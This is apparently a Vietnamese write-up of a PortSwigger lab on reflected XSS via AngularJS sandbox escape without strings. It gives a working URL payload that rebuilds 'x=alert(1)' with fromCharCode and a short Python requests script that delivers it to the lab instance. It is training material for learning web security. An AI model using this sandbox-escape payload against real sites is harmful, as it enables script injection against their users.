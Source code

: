 mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/Sk-cyq_9T.png)

## 25. Lab: Reflected XSS with AngularJS sandbox escape without strings

link: https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings

### Phân tích

- mình serarch và thấy đoạn script xử lí

![image](https://hackmd.io/_uploads/S1GAu5u5a.png)

### Khai thác

chúng ta sẽ dùng payload để bypass

```
/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

trên XSS cheatsheet

![image](https://hackmd.io/_uploads/HksnjqO5p.png)

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0ace00d804ba6e09805b2b3800ca00cf.web-security-academy.net'

response = requests.get(
    url + "/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1",
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/By8u3c_9a.png)
